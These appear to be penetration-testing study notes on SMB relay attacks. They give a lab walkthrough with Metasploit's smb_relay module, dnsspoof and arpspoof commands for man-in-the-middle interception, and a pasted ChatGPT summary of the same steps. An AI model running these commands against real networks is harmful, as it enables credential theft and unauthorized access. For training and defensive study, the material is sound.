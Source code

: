 # SMB Relay Attack

* An SMB relay attack is a type of network attack where an attacker intercepts SMB (Server Message Block) traffic, manipulates it, and relays it to a legitimate server to gain unauthorized access to resources or perform malicious actions.
* This type of attack is common in Windows networks, where SMB is used for file sharing, printer sharing and other network devices.

## How SMB Relay Attacks Work

* <mark style="color:blue;">Interception:</mark> The attacker sets up a man-in-the-middle position between the client and the server. This can be done using various techniques, such as <mark style="color:green;">ARP spoofing</mark>, <mark style="color:green;">DNS poisoning</mark> or setting up a rogue SMB server.
* <mark style="color:blue;">Capturing Authentications:</mark> When a client connects to a legitimate server via SMB, it sends authentications data. The attacker captures this data, which might include <mark style="color:red;">NTLM</mark> (NT LAN Manager) hashes.
* <mark style="color:blue;">Relaying to a Legitimate Server:</mark> Instead of decrypting the captured NTLM Hash the attacker relays it to another server that trusts the source. This allows the attacker to impersonate the user whose hash was captured.
* <mark style="color:blue;">Gain Access</mark>: If the relay is successful, the attacker can gain access to the resources on the server, which might include sensitive files, databases, or administrative privileges. This access could lead to further lateral movement within the network, compromising additional systems.

## Practice Demo

Use msf module:

Every time the relay module gets a NTLM hash, it  uses them to authenticate and get a meterpreter/shell session on the target (SMBHOST)

* <mark style="color:yellow;">exploit/windows/smb/smb\_relay</mark>

<mark style="color:blue;">What we are doing is pretending that our machine is a SMBServer and the target IP is the host.</mark>

setSRVHOST and LHOST to our IP

Set the SMBHost to the target IP

### Configuring DNS spoofing using DNSspoof

We do this to redirect the victim to our IP every time there is any SMB connection to any host in the domain. The domain is "<mark style="color:red;">sportsfoo.com</mark>"

#### Create a file to simulate the "hosts" file:

* <mark style="color:yellow;">echo "attackerIP \*.sportsfoo.com" > dns</mark>

Now we spoof via our interface <mark style="color:red;">ethernet 1</mark> using the created DNS file.

* <mark style="color:yellow;">dnsspoof -i eth1 -f dns</mark>
  * "<mark style="color:yellow;">-i</mark>": Define interface to listen on
  * "<mark style="color:yellow;">-f</mark>": Define DNS file to use

### Setting up MTM using ARP Spoofing

#### Enable IP forwarding

* <mark style="color:yellow;">echo 1 > /proc/sys/net/ipv4/ip forward</mark>

#### Start the ARP spoof attack against the traffic from Windows 7 to the default gateway:

* <mark style="color:yellow;">arpspoof -i eth1 -t windows7IP gatewayIP</mark>

#### In a new tab:

This command spoofs the traffic from the gateway to the windows7 machine

* <mark style="color:yellow;">arpspoof -i eth1 -t gatewayIP windows7IP</mark>

Now all the trafic of incoming SMB connections gets sent to us.



## ChatGPT Summary of the Attack

In an **SMB Relay Attack**, the goal is to capture SMB authentication requests from a victim and relay them to a target machine within the same network or domain. Here’s a simplified breakdown of the process:

1. **Set Up SMB Relay:**
   * Use the `exploit/windows/smb/smb_relay` module.
   * Set **SRVHOST** and **LHOST** to your IP to make your machine act as an SMB server, and set **SMBHOST** as the target machine where the victim's credentials will be relayed.
2. **DNS Spoofing:**
   * Create a DNS spoofing file with `echo "attackerIP *.sportsfoo.com" > dns` to redirect SMB traffic to your machine.
   * Use `dnsspoof -i eth1 -f dns` to intercept DNS queries and redirect the victim's SMB traffic to your attacking machine.
3. **ARP Spoofing (Man-in-the-Middle):**
   * Enable IP forwarding with `echo 1 > /proc/sys/net/ipv4/ip_forward` to allow traffic to pass through your machine.
   * Run ARP spoofing between the victim (Windows 7 machine) and the gateway using:
     * `arpspoof -i eth1 -t windows7IP gatewayIP` (spoof the victim to the gateway).
     * `arpspoof -i eth1 -t gatewayIP windows7IP` (spoof the gateway to the victim).
4. **Session Management:**

* The `smb_relay` module **does not automatically store sessions** obtained from the relay attack. You will need to manage the sessions manually, but it provides a mechanism to relay the credentials, allowing you to authenticate to the target system once the victim’s credentials are validated.
